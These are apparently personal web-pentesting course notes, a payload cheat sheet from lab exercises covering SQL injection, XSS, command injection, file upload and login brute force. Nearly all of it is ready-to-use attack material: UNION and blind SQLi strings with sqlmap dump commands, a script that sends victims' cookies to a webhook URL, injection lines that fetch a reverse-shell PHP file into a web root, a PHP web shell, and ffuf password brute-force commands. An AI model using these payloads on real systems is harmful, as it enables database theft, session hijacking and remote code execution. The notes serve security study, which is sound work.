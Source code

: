 - Recon scripts
	- sumrecon: [https://github.com/thatonetester/sumrecon](https://github.com/thatonetester/sumrecon)
	- TCM's modified script - [https://pastebin.com/MhE6zXVt](https://pastebin.com/MhE6zXVt)
- [Payload for All Things](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [appsec gitbook](https://appsecexplained.gitbook.io/appsecexplained)
- 

##  SQL Injection
###### SQL Injection - UNION
- `jeremy' or 1=1-- -` or `jeremy' or 1=1#`
- `jeremy' union select null,null,null#` -- to output number of columns
- `jeremy' union select null,null,version()#` -- to output version
- `jeremy' union select null,null,table_name from information_schema.tables#` -- to output all of the tables that exists in database
- `jeremy' union select null,null,column_name from information_schema.columns#`-- to output all of the columns that exists in database
- `' union select null,TABLE_NAME,null,null,null,null,null from information_schema.tables-- -`
- `' union select null,COLUMN_NAME,null,null,null,null,null from information_schema.columns-- -`
- [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
###### SQL Injection - Blind 
- Blind SQL (Structured Query Language) injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response.
- Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors. [refer](https://portswigger.net/web-security/sql-injection/blind)
- Open burp -> send the POST request to repeater 
- Copy the whole request and paste it in req.txt
- `sqlmap -r req.txt`
- If we can change the session cookie and response doesn't change that means we have SQL Injection 
	- In our lab `Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#`
- Now we will be using substring (SUBSTRING(_string_, _start_, _length_))
	- `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring('alex',1,3) ='ale'#` -- to check for password match 
	- `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()),1,1) ='8'#`  or  `Cookie: session=6967cabefd763ac1a1a88e11159957db' and substring((select version()),1,5) ='8.0.3'#` -- to check the version of database
- Copy the whole GET request and paste it in req2.txt
- `sqlmap -r req2.txt --level=2` -- this will check for cookie
- `sqlmap -r req2.txt --level=2 --dump` -- this will dump all tables from every databases
- `sqlmap -r req2.txt --level=2 --dump -T injection0x02` -- if you know the table

## XSS
- avoid using `alert(1)` try `print()` or `prompt("Hello")`
- `<img src=x onerror="prompt(1)">`
- `<img src=x onerror="window.location.href='https://google.com'">`
- Always test for HTL injection first
- To steal the cookie
	- visit `webhook.site` and click on Unique URL
	- `<script>var i=new Image;i.src="https://webhook.site/112d88a1-28ab-42b9-9864-a6b2ae8750e0/?"+document.cookie;</script>`

##   Command Injection
- `;whoami; echo`
- check for php, python or bash and try different reverse shell payload
- `https://tcm-sec.com \n wget 10.0.2.8:8080/test` 
- We can use webhook.site 
	- ` https://webhook.site/112d88a1-28ab-42b9-9864-a6b2ae8750e0?`whoami` `
- we can pop reverse shell by uploading rev.php
	- `https://tcm-sec.com \n wget 10.0.2.8:8080/rev.php`
	- `https://tcm-sec.com && curl 10.0.2.8:8080/rev.php > /var/www/html/rev.php`
- `500' ;whoami;#` -- always try ;whoami;

## Insecure File Upload
- Always check if the sanity is done only on client side or it is done on server side as well (use burp repeater for invetigation)
- `ffuf -w /usr/share/wordlists/dirb/common.txt  -u http://localhost/FUZZ`
- `<?php system($_GET['cmd']); ?>`
- always check for other extension such as php5, php4, phtml


## Attacking Authentication
- Brute Force
	- Use Burp to attack and moniter by length filter
- ffuf
	- copy the request from burp and paste it in req.txt
	- change password to FUZZ
	- `ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814`  --  -fs to filter file size
- `ffuf -request teashop.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3376,3256` same as ffuf attack used above only difference we have FUZZUSEr and FUZZPASS 

## Capstone
- Enum
	- `ffuf -w /usr/share/wordlists/dirb/common.txt -'http://localhost/capstone/FUZZ' -e .php -recursio`
- Sign In/ Sing UP -- check for weak password register